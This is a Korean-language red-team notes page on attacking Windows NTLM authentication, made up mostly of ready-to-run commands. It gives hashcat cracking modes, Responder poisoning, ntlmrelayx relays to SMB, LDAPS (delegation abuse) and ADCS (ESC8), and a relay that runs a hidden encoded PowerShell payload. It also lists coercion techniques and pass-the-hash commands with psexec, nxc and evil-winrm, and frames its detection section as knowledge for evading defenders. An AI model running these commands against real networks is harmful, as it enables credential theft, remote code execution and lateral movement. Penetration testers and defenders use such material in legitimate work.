

# NTLM

Windows 의 legacy 인증 프로토콜. 현업에서는 Kerberos 가 주 인증이지만 SMB / HTTP / LDAP 등의 fallback 경로에서는 여전히 NTLM 이 돈다.
레드팀 입장에서 보면 NTLM 관련 공격은 크게 세 축으로 정리된다: **credential 탈취 (Responder), relay (ntlmrelayx), hash 재사용 (PtH)**.

---

## 동작 흐름



| 구성요소 | 설명 |
|---|---|
| NT Hash | MD4(UTF-16-LE(password)) |
| LM Hash | DES 기반. Vista 이후 기본 off |
| NetNTLMv1 | DES response. downgrade 공격의 표적 |
| NetNTLMv2 | HMAC-MD5 (NT hash + server / client challenge) |

---

## Hash 유형 구분

```
# NT hash (로컬에서 획득)
aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

# NetNTLMv2 (네트워크 capture, Responder 출력)
user::DOMAIN:1122334455667788:aaaaaaaa...:01010000...

# NetNTLMv1 (downgrade 유도 시)
user::DOMAIN:response:response:1122334455667788
```

cracking:

```bash
# NT hash
hashcat -m 1000 hash.txt rockyou.txt

# NetNTLMv2
hashcat -m 5600 hash.txt rockyou.txt

# NetNTLMv1 → DES brute. crack.sh 에 올리면 수 시간이면 복구됨
hashcat -m 5500 hash.txt rockyou.txt
```

---

## Responder (credential 탈취)

```bash
# 기본
responder -I eth0 -wrf

# 옵션
#  -w : WPAD proxy 응답
#  -f : fingerprint
#  -r : RAP broadcast 응답
#  -d : DHCP 요청 응답
#  --disable-ess : 내부 RA 제한 걸린 환경에서
responder -I eth0 -A           # analyze 모드. 탈취 안 하고 broadcast 만 관찰
```

LLMNR / NBT-NS / mDNS poisoning 상세는 [LLMNR/NBT-NS Poisoning](../lifecycle/credential-access.md#llmnrnbt-ns-poisoning) 참고.

---

## NTLM Relay (ntlmrelayx)

```bash
# SMB → SMB (signing 꺼진 target)
# 먼저 nxc 로 signing 대상 파악
nxc smb <subnet> --gen-relay-list relay.txt

# ntlmrelayx
impacket-ntlmrelayx -tf relay.txt -smb2support \
    -c 'powershell -nop -w hidden -enc <b64>'

# SMB → LDAPS (DC ACL 조작 / RBCD)
impacket-ntlmrelayx -t ldaps://dc.corp.local --delegate-access \
    --escalate-user <user>

# SMB → ADCS (ESC8)
impacket-ntlmrelayx -t http://adcs.corp.local/certsrv/certfnsh.asp \
    --adcs --template DomainController
```

강제 인증 (coercion) 유발 기법:

- `PetitPotam` (MS-EFSRPC)
- `PrinterBug` (MS-RPRN)
- `DFSCoerce` (MS-DFSNM)
- `Coercer` (위 전부 자동화) → [AD Coercion](../ad/coercion.md)

---

## NTLM 보안 통제 vs 우회

| 통제 | 동작 | 우회 여부 |
|---|---|---|
| SMB Signing | 메시지 무결성. SMB Relay 차단 | signing 미구성 호스트만 relay 가능. 보통 server 는 required 지만 client 는 not required 인 경우가 많다 |
| LDAP Signing / Channel Binding | LDAP / LDAPS relay 차단 | 패치 전 환경에서는 LDAPS 에만 channel binding 검증됨. LDAP 평문은 여전히 relay 가능했음 (CVE-2019-1040 이후 기본 강화) |
| EPA (Extended Protection for Authentication) | HTTPS 서비스 channel binding | ADCS web enrollment 는 기본 EPA OFF → ESC8 |
| SmbServerNameHardeningLevel | RPC / SMB 서버 이름 검증 | 대부분 default 0 |
| NetNTLMv1 비활성 (`LmCompatibilityLevel >= 3`) | downgrade 차단 | `reg query HKLM\System\CurrentControlSet\Control\Lsa /v LmCompatibilityLevel` 로 확인 |

---

## Pass-the-Hash (PtH)

```bash
# NT hash 만으로 인증 (password 없이)
impacket-psexec -hashes :<NT_HASH> DOMAIN/user@target
nxc smb <target> -u user -H <NT_HASH>
evil-winrm -i <target> -u user -H <NT_HASH>
```

관련: [Pass-the-Hash](../lifecycle/lateral-movement.md#pass-the-hash-pth), [Pass-the-Ticket](../lifecycle/lateral-movement.md#pass-the-ticket-ptt)

---

## 탐지 관점 (회피하려면 알아두기)

- Event 4624 LogonType 3 + NTLM 인증 → 내부 감사 대상
- MDI (Microsoft Defender for Identity) 는 NTLM Relay, Honeytoken 이벤트 감지
- NTLM Auditing 이 감사 모드로 돌고 있으면 사용자별 NTLM 사용량이 로깅된다
- 방어측 3종 세트: SMB Signing required / LDAPS channel binding / ADCS EPA — NTLM Relay 의 주요 차단선

---

## 참고

- [LLMNR/NBT-NS Poisoning](../lifecycle/credential-access.md#llmnrnbt-ns-poisoning)
- [AD Coercion](../ad/coercion.md)
- [ADCS ESC8](../ad/adcs.md#esc8-ntlm-relay-to-adcs-http-enrollment)
